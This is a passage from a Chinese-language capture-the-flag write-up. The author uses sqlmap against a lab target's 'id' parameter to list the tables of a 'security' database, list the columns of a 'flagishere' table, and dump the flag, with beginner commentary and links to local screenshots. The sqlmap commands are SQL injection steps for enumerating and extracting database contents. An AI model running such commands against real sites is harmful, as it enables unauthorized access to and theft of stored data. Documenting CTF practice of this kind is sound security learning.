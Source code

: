 sqlmap -u http://bxs.cumt.edu.cn:30007/test/index.php?id=1 --tables -D security

![img](C:/Users/kljxn/AppData/Local/YNote/data/kljxn@qq.com/4c69d8d7088a45928a58a93b07a73e54/2019-01-28%2016-35-41%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)

上下两图无缝衔接（太长了，截不到一起）

![img](C:/Users/kljxn/AppData/Local/YNote/data/kljxn@qq.com/715968f8252e4028b489844be0c9dffc/2019-01-28%2016-37-51%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)

看到flagishere就知道稳了

sqlmap -u http://bxs.cumt.edu.cn:30007/test/index.php?id=1 --columns -T flagishere -D security

![img](C:/Users/kljxn/AppData/Local/YNote/data/kljxn@qq.com/db48dc74de6249d1aa27eb823c793ecf/2019-01-28%2016-40-36%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)



![img](C:/Users/kljxn/AppData/Local/YNote/data/kljxn@qq.com/804975b8568940a2919072394bf6fbe3/2019-01-28%2016-40-52%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)

我这个萌新还以为flag就是non-numeric呢，还以为要在网址后面加?id=numeric

都错了。接着键入

sqlmap -u http://bxs.cumt.edu.cn:30007/test/index.php?id=1 --dump -C flag -T flagishere -D security

![img](C:/Users/kljxn/AppData/Local/YNote/data/kljxn@qq.com/de75a2ab15564061ae23f98774104209/2019-01-28%2016-44-07%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)



![img](C:/Users/kljxn/AppData/Local/YNote/data/kljxn@qq.com/ce84194cedc84c1dab19b5dfa2bd3eb5/2019-01-28%2016-44-36%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)

得到flag



最终成绩

![img](C:/Users/kljxn/AppData/Local/YNote/data/kljxn@qq.com/65613fd8990c4e5990e619f4d8b01b61/clipboard.png)

![img](C:/Users/kljxn/AppData/Local/YNote/data/kljxn@qq.com/95489666d9dc4625aba29b2952ff7daf/clipboard.png)

